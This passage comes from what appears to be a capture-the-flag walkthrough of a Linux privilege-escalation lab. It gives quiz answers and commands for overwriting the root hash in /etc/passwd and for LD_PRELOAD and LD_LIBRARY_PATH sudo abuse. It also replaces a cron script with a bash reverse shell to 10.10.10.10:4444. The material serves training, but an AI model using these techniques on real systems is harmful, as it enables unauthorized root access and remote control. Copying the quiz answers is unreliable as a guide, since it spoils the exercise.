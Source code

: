 If the /etc/passwd/ can be edit, you can generate a new password then replace the x in between the first and second colons (:) of each line. (ex.root:opensslpasswordhere:0:0:root:/root:/bin/bash) 

```
ls -l /etc/passwd
openssl passwd newpasswordhere
su root
```

#### Task 6: Sudo - Shell Escape Sequences

- How many programs is "user" allowed to run via sudo?
	- `11`

- One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
	- `apache2`

- Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.
	- `No answer needed`

#### Task 7: Sudo - Environment Variables

- Read and follow along with the above.
	- `No answer needed`

```
sudo -l
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-here
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

#### Task 8: Cron Jobs - File Permissions

- Read and follow along with the above.
	- `No answer needed`

Vim the overwrite.sh then replace with the program below. 
Change the IP to your vpn IP.
```
cat /etc/crontab
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

nc -nvlp 4444
```

#### Task 9: Cron Jobs - PATH Environment Variable

- What is the value of the PATH variable in /etc/crontab?
	- `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`
